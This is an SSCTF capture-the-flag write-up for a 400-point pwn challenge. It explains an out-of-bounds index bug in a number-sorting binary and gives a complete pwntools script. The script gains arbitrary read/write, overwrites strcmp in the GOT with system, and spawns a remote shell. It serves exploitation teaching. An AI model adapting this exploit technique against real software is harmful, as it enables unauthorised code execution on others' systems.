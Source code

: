 ```yaml
---
layout: post
title: SSCTF - Exploitation 400
category: [Exploitation]
tags: [Exploitation, SSCTF]
comments: true
---
```


**Points:** 400
**Solves:** 
**Category:** Exploitation
**Description:**

> [pwn1-fb39ccfa.zip]({{site.url}}/assets/pwn1-fb39ccfa.zip)

## Part 1, The Vulnerability

First of two Exploitation challenges in SSCTF, this package contains 32bit binary and the server's libc.so library.
I will not go over every detail but only the vulnerability and exploitation parts. On start the binary displays a menu.

{% highlight text %}
_
            +-------------------------+
            +  Welcome To SSCTF PWN1  +
            +   Have A Good Time :)   +
            +-------------------------+
_CMD_$ help

Command Menu:
	history : Show history
	reload  : Reload history
	clear   : Clear history
	sort    : Sort numbers
	exit    : Exit
_CMD_$

{% endhighlight %}

It's a integer sorting function. Choosing the sort option we are asked for the number of integers to sort and than a sub-menu appears.

{% highlight text %}
_CMD_$ sort
How many numbers do you want to sort: 5
1 of 5, Enter a number: 255
2 of 5, Enter a number: 255
3 of 5, Enter a number: 255
4 of 5, Enter a number: 255
5 of 5, Enter a number: 255

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose:
{% endhighlight %}

Each one of the sorting options are self-explanatory. The History option, shows us the previously sorted lists. The reload option moves us in the context of the chosen history list ID. To exploit this binary we are only interested in the sort (including the sort sub-menu) and reload.

Let's see how the sort function works. By issuing the above commands, we have created a struct with the following elements.

{% highlight text %}
struct list {
	int number_of_elements;
	int array[4];
};

0x804e038:	0x00000005	0x000000ff	0x000000ff	0x000000ff
0x804e048:	0x000000ff	0x000000ff	0x0804e038	0x00000000

{% endhighlight %} 

Next to it, there is another struct of 2 elements. It is used to keep track of the current active list. Right now only the first element has a value, which is a pointer to the beginning of our first list (remember that because it's going to be used for the exploitation part).

Just by playing around with the Sort Menu, we can notice a few interesting things. First, the main vulnerability which is accessing out of bound element because the indexes seem to start from 1 and not 0, so by accessing the 5th element, we are accessing array[5] which is the next struct. We also see that we can't access an index higher than the number of elements stored in list->number_of_elements.

{% highlight text %}
Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 5
[*L*] Query result: 134537272

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 6
[*E*] Query failed!
{% endhighlight %}

The reload option takes list ID from the history, makes it as the current active list and moves us to the Sort Menu to perform some action on it. Behind the scenes however, the reload option takes the pointer that points to the beginning of the struct and uses it as a source for memcpy. It takes the first element and it does ((x + 1) << 2), it than uses the result as size for memcpy. The destination is just the next available space (not important in our case).

## Part 2, The Exploit

So, what do we know so far? We know we can read/write @ the pointer of the struct. We also know that we can use that pointer via the reload function to be the source of memcpy and thus change the current active list to have data based on what we are going to copy to the destination. I know it sounds a bit confusing but this is what we are going to do.

1. Leak the pointer to the struct
2. Change the pointer to a location where we control data (this will be in the current struct, just different offset)
3. Invoke reload so we copy the data we control into the new active list. This will allow us to control the first element in the new list, which is going to lift the indexing restrictions.
4. Now that our active sort list is with a controlled number_of_elements, we can reference any offset in the whole binary.
This is what gives us read/write to any address via the Sort Menu's Query and Update number by index.
5. Leak the address of strcmp
6. Change strcmp with system

Knowing the plan of action and what each step with allow us to do should of cleared things for you :).

## Final script

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

r = remote('pwn.lab.seclover.com', 11111)
#r = process(['./pwn1-fb39ccfa'])
#print util.proc.pidof(r)
#sys.stdin.read(1)

# Step 1 get address of struct
garbage = r.recv()
r.sendline("sort")			# Sort
r.sendline("1")				# only 1 element
r.sendline("1073741824")			# size for memcpy. ((0x40000000 + 1) << 2) == 4 bytes
r.sendline("3")				# Sort the list, this places the ptr at the end
r.sendline("1")				# Leak pointer
r.sendline("1")				# Out of bound array access
garbage =  r.recvuntil("Query result: ")
leak = r.recvline()
log.info("Leak: " + hex(int(leak)))


# Step 2, overwrite controlled ptr to point to the beginning of struct+4
# this will cause our first element (array[0] == 0x40000000) to be used
# as number_of_elements in the next active list when we reload
r.sendline("2")
r.sendline("1")					# Out of bound array array access again
r.sendline(str(int(leak) + 4))			# make ptr to struct to be ptr+4
r.sendline("7")					# Exit sub-menu

# Step 3, This makes a new active list with number_of_elements
# a copy from previous list's array[0]
r.sendline("reload")
r.sendline("0")

# Step 4, here reload entered us in Sort Menu
r.sendline("1")					# find index for strcmp
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))	# Calc index for strcmp@got addr

# Step 5, leak address of strcmp@got
garbage = r.recvuntil("Query result:")
strcmp = r.recvline()
log.info("strcmp: " + hex( abs((int(strcmp) ^ 0xffffffff) + 1) ))

# Step 6, overwrite strcmp with system
r.sendline("2")
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))
r.sendline(str( int(strcmp) - 0x3bfa0 )) # Local 0xf9940
r.sendline("7")

# Argument for the new system()
r.sendline("/bin/sh")

r.interactive()

# pwn400 flag - SSCTF{e8b381956eac817add74767b15c448e4}
{% endhighlight %}

* Hope you liked it :), to be continue in pwn600